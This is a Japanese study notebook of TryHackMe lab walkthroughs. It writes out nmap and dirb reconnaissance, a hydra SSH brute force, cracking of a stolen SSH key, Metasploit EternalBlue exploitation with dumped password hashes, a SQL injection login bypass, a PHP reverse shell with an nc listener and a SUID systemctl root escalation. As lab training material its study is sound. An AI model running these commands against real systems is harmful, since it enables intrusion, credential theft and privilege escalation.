




# 7日間でハッキングを始める本まとめ
[TryHackMe](https://tryhackme.com/)というHackingの練習をできるサイトを利用してHackingについて学ぶ。
環境にはHackingツールが揃っているKali Linuxを利用していくので仮想環境を準備する。

## Day1:環境準備
- [TryHackMe](https://tryhackme.com/)のアカウント作成
- mac環境でのkali Linuxの仮想環境構築はこちらのサイトがわかりやすい：[macでのkaliのインストール](https://qiita.com/matz1ppei/items/def3b0b81b8b97c0e447)
- mac環境のKali Linuxの各種設定はこちらのサイトがわかりやすい：[Kali Linux on UTMの最小設定](https://qiita.com/matz1ppei/items/26396a71e3bfd80abc49)
- Hint: macの場合、UTMの設定画面は仮想環境をシャットダウンしてから「編集」が選べるようになる
- Hint: 共有フォルダはUTMの設定から「共有」を選択してMac側のフォルダを選択

できていないこと
- googleChromeのインストール
- FireFoxのTWPのインストール

### Day1勉強したこと
- Kali linuxというHackingツールが揃ったOSがある
- VMとしてUTMを利用すると簡単に環境を構築できる
- TryHackMeからファイルDLしてVPN接続する
- ハッキング練習を他のサイトに実施しないようにVPNは必須

## Day2：ターゲットの偵察と辞書攻撃
[Basic Pentesting](https://tryhackme.com/room/basicpentestingjt)  
開発中のサイトに攻撃をしてみる。最初はどのような通信が許可されているかをnmapで調査。

### ポート調査
このコマンドでは、ターゲットがping応答しない環境下でも強制的にポートスキャンを行い、さらに各ポートで稼働しているサービスのバージョンまで取得します。結果は nmap.txt に保存されるので、後で分析しやすくなります。
```
nmap -sV -Pn -oN nmap.txt -v 10.xx.x.x
```

|オプション|説明|
|:----|:----|
|-sV|サービスのバージョン検出を行う。各ポートで動作しているアプリケーションの種類とバージョンを推測します。|
|-Pn|ホストのpingスキャンをスキップし、ホストがオンラインであると仮定してスキャンします。ファイアウォールでICMPがブロックされているときに便利です。|
|-oN nmap.txt|スキャン結果を通常の（人間が読みやすい）形式で nmap.txt に保存します。|
|-v|詳細モード。進捗や追加情報を表示します（複数回指定することでさらに詳細になる）。|
|10.xx.x.x|スキャン対象のIPアドレスです（マスキングされていますが、実際のターゲットIPを指定します）。|

結果は以下でSSHやHTTP・Sambaのポートが解放されている。
```
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8080/tcp open  http        Apache Tomcat 9.0.7
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

httpでマシンにアクセスすると、開発中のページ表示がされる。
追加情報はないがアクセスできるページがないかを調査する

### サイトへの攻撃
■dirbを利用した辞書攻撃  
dirbコマンドを利用すると、辞書ファイルのパスを利用してアクセスできる階層がないかを調査できる  
以下のコマンドではsmall.txt内の辞書を利用して、"http:///10.x.x.x"配下にアクセスできるディレクトリがないか調査する
```
dirb http://10.x.x.x /usr/share/dirb/wordlists/small.txt
```
結果としてdevelopmentのパスがあることが確認できる。
developmentにあるテキストから、JとKが開発者でKのパスワードが脆弱性があることがわかる

### Sambaへの攻撃
SambaはWindowsのファイル共有やプリンタ共有をLinuxでも利用できるようにするためのソフトウェア。
匿名でのアクセスが可能であるため、なにか情報が共有フォルダに置かれていかなどを調べる。

enum4linux は Samba や Windows系の共有サービスの情報を一気に引き出せるツール
```
enum4linux -a 10.x.x.x
```
以下の情報などが引き出せる

|出力項目|内容|攻略での使い道|
|:----|:----|:----|
|NetBIOS名|ホスト名やドメイン名|対象ホストの識別|
|ユーザー名リスト|ローカルユーザー名一覧|ブルートフォースやパスワード推測に利用|
|共有リスト（Shares）|公開されているファイル共有の一覧|匿名アクセス or 重要ファイルの発見|
|パスワードポリシー|ログオン制限など|クラッキングの難易度を判断|
|SID・RID|セキュリティ識別子|特定ユーザーを特定するために使用|

結果から、Anonymous(匿名ユーザー)へのアクセスが許可されていることを確認する。
ちなみに、smbclientコマンドで情報を一覧表示してもAnonymousが許可されていることはわかる
```
smbclient -L 10.x.x.x
```

Anonymousユーザーとして、ログインしてファイルを取得して、JanとKeyがユーザーであることを特定する。
```
smbclient ////10.x.x.x//Anonymous
```


### 辞書攻撃でsshアクセスする
rockyou.txtというパスワードクラックで有名な辞書を利用してみる。kali Linuxには最初からrockyou.txtは保管されている。
rockyouは1500万ものパスワードが保管されている。

hydraコマンドを利用すると、ユーザーを固定して、パスワード攻撃をすることができる。
```
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh:10.x.x.x -t 4
```

|オプション|説明|
|:----|:----|
|-l jan|ユーザー名「jan」を指定（単一ユーザー）|
|-P /usr/share/wordlists/rockyou.txt|パスワードリストに rockyou.txt を使用|
|ssh://10.x.x.x|対象サービスは SSH（IPはマスクされています）|
|-t 4|並列で4スレッド使用（負荷を分散、スピードアップ）|

結果として、janのパスワードが辞書とマッチするので表示されるため、janとしてsshが可能となる。



### 横展開
janについては、アカウントを侵害できたので、kayについても侵害したい。これを横展開や水平展開とよぶ。
または、より権限が強いアカウントに対して攻撃できる場合は権限昇格ということもある。

ssh先でファイルを見ていると秘密鍵を発見。/home/kay/.ssh/rd_rsa

以下のSCPコマンドでローカルにrd_rsaをDLしたら、これを解析していく
```
scp jan@10.x.x.x:/home/kay/.ssh/id_rsa ./id_rsa
```

SSH秘密鍵が得られたが、パスフレーズで保護されておりそのままではログインできなかった。
ssh2john を使って鍵を John the Ripper 形式に変換し、rockyou.txt でクラックを実施
```
ssh2john kay_rsa > kay_hash.txt
john kay_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```


### 参考サイト
- 同じRoomを完了させている人：[TryHackMeでハッキングを勉強してみた話](https://zenn.dev/ci/articles/aa15d88b06bbed#%E5%8F%82%E8%80%83%E3%81%AB%E3%81%95%E3%81%9B%E3%81%A6%E3%81%84%E3%81%9F%E3%81%A0%E3%81%84%E3%81%9F%E6%83%85%E5%A0%B1%E7%BE%A4)
- 同じRoomを完了させている人：[【TryHackMe】Basic Pentesting：Walkthrough](https://qiita.com/kk0128/items/bbbdaa5d5982135f9b5a)

### Day2勉強したこと
- nmapで利用しているポートを洗い出せる
- dirbでサーバーのディレクトリ攻撃ができる
- SambdaはLinux用の共通フォルダサービス
- Sambdaにアノニマスユーザーが残っていると攻撃されうる
- hydraでパスワードのブルーフォース攻撃ができる
- sshでログインできればscpとかでファイルをローカルに保存できる

## Day3：Windowsの脆弱性を利用した攻撃
[Blue](https://tryhackme.com/room/blue)  
Windowsサーバーに対してまずはnmapで偵察

### ネットワークの偵察
```
nmap -sV -Pn -oN nmap.txt -v 10.x.x.x --script vuln
```
"--script vuln"によって、脆弱性の調査までしてくれる。

VULNERABLE(脆弱性)の結果として、"CVE-2017-0143"が出力され、リモートからの不正コード実行のRCE(Remote Code Execution)の脆弱性があることを確認できる。
```
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
```

### 脆弱性の調査
CVEは"Common Vulnerabilities and Exposures"という脆弱性の識別子である。
CVE-2017-0143で検索すると、どのような脆弱性かを確認できる。

CVE-2017-0143はSambdaなどで利用されるSMB(Server Message Block)と呼ばれる、ファイル共有に利用するプロトコルの旧バージョンの脆弱性。
SMBに対して、特別なコードを実行することで任意のコードをOS上で実行することが可能になる。

2017年、世界中で猛威をふるったサイバー攻撃の1つが「EternalBlue（エターナルブルー）」を悪用した**WannaCry（ワナクライ）**による感染でした。この攻撃は、Windowsの脆弱性を突いてPCを乗っ取り、ファイルを暗号化して金銭（ビットコイン）を要求するというものでした。


### 脆弱性への攻撃
Kali Linuxには、Metasploit Frameworkというツールが準備されており、脆弱性への攻撃をすることができる。

mfsconsoleを呼び出し、脆弱性を指定して攻撃をすることができる。
以下の一連の流れに沿ってコマンドを実行すだけで脆弱性に対して攻撃し、RCEが成功する。
```sh
# mfsconsoleの実行
msfconsole
# 脆弱性の調査(利用可能なモジュールが表示される)
search CVE-2017-0143
# 利用するモジュール指定
use 0
# オプション指定
show options
# オプション指定
set XXX
# 攻撃
exploit
```

Windowsにアクセスできたので、Flagを獲得する
```
search -f flag*
```

### レインボーテーブルでハッシュからパスワードを解析
脆弱性から管理者権限まで取得できたが、ユーザーのログイン情報まで取得してみる。

Windowsのアカウント情報を以下で吐き出す。
```sh
$ hashdump

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```
JonというユーザーとHashされたパスワード(ffb43xxxx)が出力される。

ハッシュは本来は元のパスワードを調べることはできないが、レインボーテーブルというパスワードとそのパスワードをハッシュ化したテーブルがあれば、ハッシュからパスワードを調査することができる。

今回は[Free Password Hash Cracker](https://crackstation.net/)というサイトを利用してHashからクラックしてみる。


最後にWindowsにリモートデスクトップでJonとしてログインしてみる。

### Day3勉強したこと
- nmapで脆弱性まで一緒に調査できる
- CVEで脆弱性はナンバリングされ管理されている
- MetaSploite Frameworkを利用して簡単に脆弱性をついた攻撃ができる
- パスワードが簡単なものだと、hashが流出してしまうとhashからパスワードが逆算されてしまう

## Day4：Webサイトへの攻撃(リクエスト改ざんとSQSインジェクション)
[OWASP ジュースショップ](https://tryhackme.com/room/owaspjuiceshop)  
OWASP(Open Worldwide Application Security Project)で提供されている、重要なWebアプリケーションの脆弱性を多く含んだ有名サイトに攻撃してみる。

### BurpSuiteのインストール
本では、BurpSuiteはデフォルトでログインされているとのことだったが、Kaliにインストールされていないのでインストールする。インストールにもかなり手間取るので、以下履歴。

aptでインストールを試みるがエラー
```sh
└─$ sudo apt -y install burpsuite                                  
[sudo] kali のパスワード:
パッケージリストを読み込んでいます... 完了
依存関係ツリーを作成しています... 完了        
状態情報を読み取っています... 完了        
以下の追加パッケージがインストールされます:
  java-wrappers
以下のパッケージが新たにインストールされます:
  burpsuite java-wrappers
アップグレード: 0 個、新規インストール: 2 個、削除: 0 個、保留: 833 個。
251 MB のアーカイブを取得する必要があります。
この操作後に追加で 262 MB のディスク容量が消費されます。
エラー:1 http://kali.download/kali kali-rolling/main arm64 java-wrappers all 0.4
  404  Not Found [IP: 104.17.253.239 80]
エラー:2 http://kali.download/kali kali-rolling/main arm64 burpsuite arm64 2023.10.1.2-0kali1
  404  Not Found [IP: 104.17.253.239 80]
E: http://kali.download/kali/pool/main/j/java-wrappers/java-wrappers_0.4_all.deb の取得に失敗しました  404  Not Found [IP: 104.17.253.239 80]
E: http://kali.download/kali/pool/main/b/burpsuite/burpsuite_2023.10.1.2-0kali1_arm64.deb の取得に失敗しました  404  Not Found [IP: 104.17.253.239 80]
E: いくつかのアーカイブを取得できません。apt-get update を実行するか --fix-missing オプションを付けて試してみてください。
```

apt-updateでもエラーが出る。
```sh
└─$ sudo apt update           
取得:1 http://kali.download/kali kali-rolling InRelease [41.5 kB]
エラー:1 http://kali.download/kali kali-rolling InRelease
  以下の署名が無効です: EXPKEYSIG ED444FF07D8D0BF6 Kali Linux Repository <devel@kali.org>
41.5 kB を 1秒 で取得しました (59.4 kB/s)
パッケージリストを読み込んでいます... 完了
依存関係ツリーを作成しています... 完了
状態情報を読み取っています... 完了        
アップグレードできるパッケージが 833 個あります。表示するには 'apt list --upgradable' を実行してください。
W: 署名照合中にエラーが発生しました。リポジトリは更新されず、過去のインデックスファイルが使われます。GPG エラー: http://kali.download/kali kali-rolling InRelease: 以下の署名が無効です: EXPKEYSIG ED444FF07D8D0BF6 Kali Linux Repository <devel@kali.org>
W: http://http.kali.org/kali/dists/kali-rolling/InRelease の取得に失敗しました  以下の署名が無効です: EXPKEYSIG ED444FF07D8D0BF6 Kali Linux Repository <devel@kali.org>
W: いくつかのインデックスファイルのダウンロードに失敗しました。これらは無視されるか、古いものが代わりに使われます。
```
Kaliのリポジトリを信用するための「署名鍵」が古くなって、リポジトリの最新かができないので、署名鍵のアップデートを行う。
```sh
# 古いキーの削除
sudo apt-key del ED444FF07D8D0BF6

# 新しい鍵の取得
curl -fsSL https://archive.kali.org/archive-key.asc | sudo gpg --dearmor -o /etc/apt/trusted.gpg.d/kali-archive-keyring.gpg

# リポジトリの更新
sudo apt update
```

これでkaliにBurpSuiteのインストールができる
```
sudo apt install burpsuite
```

しかし、burpsuiteの実行をするとエラーが出る。javaのバージョンがあっていないのが原因。Java21をインストールする必要がありそう。
```sh
└─$ burpsuite
[warning] /usr/bin/burpsuite: No JAVA_CMD set for run_java, falling back to JAVA_CMD = java
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
エラー: メイン・クラスburp.StartBurpのロード中にLinkageErrorが発生しました
        java.lang.UnsupportedClassVersionError: burp/StartBurp has been compiled by a more recent version of the Java Runtime (class file version 65.0), this version of the Java Runtime only recognizes class file versions up to 61.0
```

kali側のJavaと不整合を起こすため、Java 21のインストール時にパッケージの依存関係エラー。
aptはシステム全体の整合性をチェックしてくれるので、Kaliなどのバージョン管理が複雑なOSだと拒否される可能性がある。
```sh
└─$ sudo apt install openjdk-21-jdk
パッケージリストを読み込んでいます... 完了
依存関係ツリーを作成しています... 完了        
状態情報を読み取っています... 完了        
インストールすることができないパッケージがありました。おそらく、あり得
ない状況を要求したか、(不安定版ディストリビューションを使用しているの
であれば) 必要なパッケージがまだ作成されていなかったり Incoming から移
動されていないことが考えられます。
以下の情報がこの問題を解決するために役立つかもしれません:

以下のパッケージには満たせない依存関係があります:
 kali-desktop-xfce : 依存: kali-desktop-core しかし、インストールされようとしていません
E: エラー、pkgProblemResolver::Resolve は停止しました。おそらく変更禁止パッケージが原因です。
```

Javaアプリを動かすだけなら JDK ではなく JRE（ランタイム環境）で十分なことが多いのでこちらにチャレンジするがエラー。やっぱりダメみたい。
```sh
└─$ sudo apt install openjdk-21-jre 
パッケージリストを読み込んでいます... 完了
依存関係ツリーを作成しています... 完了        
状態情報を読み取っています... 完了        
インストールすることができないパッケージがありました。おそらく、あり得
ない状況を要求したか、(不安定版ディストリビューションを使用しているの
であれば) 必要なパッケージがまだ作成されていなかったり Incoming から移
動されていないことが考えられます。
以下の情報がこの問題を解決するために役立つかもしれません:

以下のパッケージには満たせない依存関係があります:
 kali-desktop-xfce : 依存: kali-desktop-core しかし、インストールされようとしていません
E: エラー、pkgProblemResolver::Resolve は停止しました。おそらく変更禁止パッケージが原因です。
```

avaを簡単に切り替え・管理できるツールのSDKMANでJava 21をインストールすることに挑戦。
これなら、システム全体ではなく、ユーザーごとにJava環境を作ることになるので、aptのように依存関係が出ないはず。
```sh 
# SDKMANのインストール
curl -s "https://get.sdkman.io" | bash
source "$HOME/.sdkman/bin/sdkman-init.sh"
# Java 21のインストール
sdk install java 21.0.2-open
# 利用バージョン確認
sdk use java 21.0.2-open
# バージョン確認
java -version                                                
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
openjdk version "21.0.2" 2024-01-16
OpenJDK Runtime Environment (build 21.0.2+13-58)
OpenJDK 64-Bit Server VM (build 21.0.2+13-58, mixed mode, sharing)
```
起動成功！


しかし、よく見てみると、Javaコマンドのパスがうまく通っていないので、利用していくとエラーが発生したので修正。
```sh
└─$ burpsuite
[warning] /usr/bin/burpsuite: No JAVA_CMD set for run_java, falling back to J
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
```

Javaのパスを通す
```sh
export JAVA_HOME="$HOME/.sdkman/candidates/java/21.0.2-open"
export PATH="$JAVA_HOME/bin:$PATH"

echo $JAVA_HOME
java -version
```

このjavaを指定して、burpsuiteを実行するとエラーなく実行までできる。
```sh
# 実行結果
$ JAVA_CMD="$JAVA_HOME/bin/java" burpsuite
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
```

しかしTargetタブから、OpenBrowserを押下すると"Burp Browser is not available"となるので以下のサイトで試したことをやってみた。
- [書籍「7日間でハッキングをはじめる本」をM1Macで完遂できるようにしたこと](https://qiita.com/yama53san/items/dc96912ff565143c51ed)

今回のOWASPジュースサイトではHTTPしか利用しないので、「Burp Suiteと連携するようFirefoxを設定する」のセクションでは以下のようにHTTPの設定のみで良い。「ブラウザのプロキシ設定の確認」まで問題なく動けばこの後の操作はできるので、こちらで完了とする。


### BurpSuite解説
BurpSuiteは、ローカルプロキシツールであり、ブラウザとターゲットサーバーの間の通信に割り込む。
BurpSuiteを利用することで、通信を書き換えたりすることができる。
これによって、リクエストの形跡の分析やリクエストを書き換えて攻撃したりすることができる。


[Webアプリケーションセキュリティの検証のためのローカルプロキシツール（Burp Suite）の利用](https://www.anet.co.jp/security/engineer_blog/webburp_suite.html)


### BurpSuiteでリクエストを書き換え
一度リクエストを送った後にTargetを確認するとリクエストの中身を見ることができる。
Repeat機能を利用すればGUIでリクエストを書き換えた上で、リクエストを再送することができる。

送信したログを見つけて右クリックして"Send to Repeater"Repeter画面でメッセージを書き換え。


### BurpSuiteで辞書攻撃
BurpSuiteで先ほどのリクエストを書き換えて再送する機能を応用して、再送するリクエストの一部を変数にしてその変数のLoop処理を回すことができる。
これによって、Loginのリクエストのパスワード部分を変数にして、辞書を利用したブルートフォース攻撃をすることができる。

HTTP historyから送信したログを見つけて右クリックして"Send to Intruder"Intruder画面で変数を指定。
どのセクションをパラメータとするか、パラメータにどのファイルのパスワードをそうあたりするかを指定することができる。


### SQSインジェクション
SQSインジェクションとは、Webアプリケーションから実行されるクエリに不正なコードを注入して意図と違うSQLを実行させる攻撃である。

サイトのからadminのアドレスがわかるので、SQSインジェクションでadminとしてログインしてみる。
ログインフォームのアドレス部分に、`admin@juice-sh.op' --`とadminのアドレスと`' --`を入力する

これによって元々のSQSが書き換えられ、パスワードが記入されていなくても、アドミンとしてログインできてしまう。

元々のSQSは以下が想定され、emailとpasswordが一致したデータがあればログインできるはずです。
```sql
SELECT * FROM Users WHERE emai = '[input_address]' AND password = '[input_pw]'
```
ここで、[input_address]の部分にWebフォームから入力されるテキストが挿入されるので先ほどの攻撃では以下になる。
`--`配下はコメントアウトとして扱われるので、emaiが一致していればログインできてしまう。
```sql
SELECT * FROM Users WHERE emai = 'admin@juice-sh.op' --' AND password = '[input_pw]'
```

### Day4勉強したこと
- BurmSuiteというローカルプロキシを利用して送信リクエストを改ざんできる
- 送信リクエストの一部を変数としてLoop処理もできる
- SQSインジェクションができるならクエリを予想しながら攻撃できる

## Day5：大学サイトへの攻撃（リバースシェルとSUIDによる権限昇格）
[Vulnversity](https://tryhackme.com/room/vulnversity)  
Webアップロードが可能な大学サイトに対してリバースシェルで攻撃をしてから、権限昇格を試みる。

### 偵察
nmapで偵察をしてみると、以下の3つはアクセスできそう。（sambaも利用しているが今回はスルーみたい）
- SSH:22
- FTP:21
- HTTPD:3333

### FTPの調査
FTPはFile Transfer Protocolの名前の通りファイルを送受信するプロトコル。
FTPにはanonymousという匿名ユーザーが認められているので試してみる。  
結果としてはログイン失敗なのでFTPには脆弱性はない。

### HTTPDの調査
ポート3333にWebサイトがありそうなので調べてみる。アクセスしてみると、大学のホームページが開く。
ホームページの範囲は広いので調査しきれないので、Day2で利用したdirbコマンドを利用して脆弱性のあるディレクトリなどを探す
```
dirb http://x.x.x.x:3333 /usr/share/dirb/wordlists/small.txt -R
```

結果として、`/internal`と`/internal/uploads`のパスが存在することがわかる。
このパスにアクセスしてみるとファイルアップロード画面になるのでファイルをアップロードしてみるが、txtなどは拡張子的にアップロードできない様子。


そこで、Day4でも利用したローカルプロキシのBurp Suiteを利用する。
ファイルアップロートしたリクエストを見つけて、


拡張子の部分を変数にして、拡張子を辞書から参照しながらファイルアップロードできる拡張子を探す。


結果的にphtmlという、昔使われていたPHPファイルの拡張子でファイルアップロードができる。
PHPファイルがアップロードできるということで今回は`リバースシェル`を利用した攻撃をする。



### リバースシェル
リバースシェルは、攻撃者がターゲットシステムに対して直接接続するのではなく、ターゲットシステムから攻撃者のシステムへ接続を確立させる手法。​この方法により、ターゲット側のファイアウォールやNAT（ネットワークアドレス変換）を回避しやすくなる。​

多くのネットワーク環境では、外部から内部へのインバウンド通信は厳しく制限されているが、内部から外部へのアウトバウンド通信は比較的緩やかに設定されていることが一般的。​このようなセキュリティ設定の盲点を突いて、リバースシェルはアウトバウンド通信を利用して攻撃者との接続を確立する。​


[リバースシェルとは？事例と防止策](https://www.wallarm.com/jp/what/reverse-shell)

#### リバースシェルで攻撃
Kaliにはpht-reverse-shell.phpが準備されているので、攻撃者のIPや待ち受けポートを書き換えた上で、先ほどのページからアップロードする。

攻撃者側はポートを待ち受ける必要があるので、以下のncコマンドを実行した上で、ブラウザ上からリバースシェルのファイルを実行すると、サーバー側がのシェルが取れる
```
nc -lvnp 12345
```


権限としては"www-data"というWebサーバー実行用のシステムユーザー権限である。あまり権限は大きくないので後ほど権限昇格には挑戦してみるとして、"www-data"でも"/var/www/html/index.html"の編集はできるので編集するとHPを乗っ取ることができる。

### 権限昇格
#### SUID
SUID(Set UserID)とは、実行ファイルに付与される特殊なパーミッションである。
実行権限`s`がついている実行ファイルは、実行者のUIDに関係なくファイルの所有者での実行権限が利用される。
例えばパスワード変更のコマンドは、rootでなければ実行できないので、SUIDの機能を用いて一般ユーザーでもパスワード変更ができるようになっている。

SUID自体は、通常に用いられる機能であり、SUID前提のコマンドなどは対策がされているため脆弱性にはならない。
一方で、通常は不要な対象にSUIDが付与されていると、GTFOBinsなどを利用して脆弱性を調査され攻撃されてしまう。
どのように実行者の権限（rootなど）を取られてしまうかというと、実行プロセスがrootになった状態では子供プロセスもrootとなるためにrootのシェルを取られてしまう。

#### SUIDでの権限昇格
まずは、SUIDが設定された実行ファイルを探す
```
find / -perm -u=s -type f 2>/dev/null
```

上記の結果から通常はSUIDが付与されない`/bin/systemctl`にSUIDが付与されていることを確認。
脆弱性のある実行ファイルについて、SUIDの脆弱性を突いた攻撃できないかを[GTFObins](https://gtfobins.github.io/)で検索してみる。


上記の情報から/root/root.txtの情報を取得するように変更するとroot権限でしか見れないファイルの中身を取得できた。
```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt> /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

### Day5勉強したこと
